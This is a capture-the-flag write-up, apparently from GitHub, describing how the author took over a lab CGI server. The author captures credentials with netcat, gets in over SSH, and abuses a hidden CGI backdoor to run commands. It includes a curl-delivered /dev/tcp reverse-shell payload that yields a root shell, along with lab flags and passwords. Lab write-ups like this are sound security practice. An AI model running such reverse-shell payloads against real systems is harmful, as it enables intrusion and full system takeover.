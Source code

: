 Project Goal
The goal of this project was to investigate a vulnerable CGI server within a local network, identify a remote command execution (RCE) vulnerability, and gain control over the system through a reverse shell. The final objective was to escalate privileges and capture the root flag.

Execution Steps
1. Traffic Analysis
First, I launched Netcat on my machine (IP 10.10.189.64) to monitor incoming data:

nc -lvnp 9000
Shortly after, I received a POST request containing credentials:

jack:WhyIsMyPasswordSoStrongIDK
2.SSH Access
I then established an SSH connection to the target machine (10.10.131.187) as the user jack:

ssh jack@10.10.131.187
# Entered password: WhyIsMyPasswordSoStrongIDK
On the target system, I retrieved the user flag:

cat ~/user.txt
1ca4eb201787acbfcf9e70fca87b866a
3. Discovering the CGI Backdoor
I noticed an active service on port 41312:

ss -tulnp
It was serving a CGI script at /cgi-bin/5UP3r53Cr37.py and accepted the parameters key, iv, and cmd.


curl -k "https://127.0.0.1:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id"
4.  Gaining Root Shell Access
To initiate a reverse shell, I set up a Netcat listener on my machine:

nc -lvnp 4444
Then, I triggered the reverse shell from the target:

curl -k "https://127.0.0.1:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sh%20-c%20'sh%20-i%20>%26%20/dev/tcp/10.10.189.64/4444%200>%261'"
I successfully received a root shell on my machine 

5. Capturing the Root Flag
Once I had root-level access, I located and read the root flag:

cat /root/root.txt
4dbe2259ae53846441cc2479b5475c72
Conclusion
I conducted a complete penetration test of a remote server, identifying and exploiting an RCE vulnerability via an insecure CGI script. Using extracted credentials and traffic analysis, I gained full root access and successfully captured the root flag.

The main attack vector was a vulnerable Python CGI script that executed unsanitized commands directly in the system shell.
